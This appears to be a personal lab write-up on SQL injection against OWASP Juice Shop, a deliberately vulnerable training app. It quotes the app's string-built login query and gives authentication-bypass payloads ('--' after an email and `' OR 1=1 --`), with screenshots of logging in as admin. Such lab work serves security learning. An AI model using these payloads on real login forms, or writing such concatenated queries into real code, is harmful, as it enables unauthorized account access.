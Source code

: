 # Inject the juice

OWASP TOP 10 - Injection

## Practical


Source code query
https://github.com/bkimminich/juice-shop/blob/master/routes/login.js

```
`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${insecurity.hash(req.body.password || '')}' AND deletedAt IS NULL`
```

We can interfere the query by adding `'--`
```
SELECT * FROM Users WHERE email = 'valid@mail.com'--|| ''}' 

```

### Logged in as admin
![9bd9f7dae475d0810c6a20f85450b30e.png](_resources/b133ee57ece2438ab2eb4ad6f52bcc15.png)

Repeat in browser

![f6b2c6446f98c0c733add57ca32ed3b2.png](_resources/0e43f9763add41e6bbfaa473b2ae2c72.png)

### Logged in as bender

![8cccee9f852a6da6ede75e2a50618839.png](_resources/9d6d877e5e754dd7b66eac0354f2e2f8.png)


Note:
- When the username/email not known, we could use `' OR 1=1 --`
```
SELECT * FROM Users WHERE email = '' OR 1=1 --|| ''}' 
```
